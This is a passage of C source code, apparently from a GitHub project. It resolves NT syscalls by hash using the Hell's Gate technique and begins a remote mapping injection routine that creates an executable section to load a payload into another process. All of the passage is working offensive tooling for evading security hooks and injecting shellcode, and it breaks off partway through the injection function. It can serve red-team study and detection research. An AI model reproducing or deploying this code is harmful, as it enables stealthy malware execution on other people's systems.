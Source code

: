 ```
	g_Sys.NtMapViewOfSection.uHash    = NtMapViewOfSection_JOAA;
	g_Sys.NtUnmapViewOfSection.uHash  = NtUnmapViewOfSection_JOAA;
	g_Sys.NtClose.uHash               = NtClose_JOAA;
	g_Sys.NtCreateThreadEx.uHash      = NtCreateThreadEx_JOAA;
	g_Sys.NtWaitForSingleObject.uHash = NtWaitForSingleObject_JOAA;

	// initialize the syscalls
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtCreateSection))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtMapViewOfSection))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtUnmapViewOfSection))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtClose))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtCreateThreadEx))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtWaitForSingleObject))
		return FALSE;



	return TRUE;
}

BOOL RemoteMappingInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize, IN BOOL bLocal) {

        HANDLE          hSection          = NULL;
        HANDLE          hThread           = NULL;
        PVOID           pLocalAddress     = NULL,
                        pRemoteAddress    = NULL,
                        pExecAddress      = NULL;
        NTSTATUS        STATUS            = NULL;
        SIZE_T          sViewSize         = NULL;
        LARGE_INTEGER   MaximumSize       = {
              .HighPart = 0,
              .LowPart = sPayloadSize
        };

        DWORD           dwLocalFlag       = PAGE_READWRITE;

	//--------------------------------------------------------------------------
    // Allocating local map view
	HellsGate(g_Sys.NtCreateSection.wSystemCall);
	if ((STATUS = HellDescent(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
		printf("[!] NtCreateSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	if (bLocal) {
		dwLocalFlag = PAGE_EXECUTE_READWRITE;
	}

	HellsGate(g_Sys.NtMapViewOfSection.wSystemCall);
	if ((STATUS = HellDescent(hSection, (HANDLE)-1, &pLocalAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, dwLocalFlag)) != 0) {
		printf("[!] NtMapViewOfSection [L] Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
```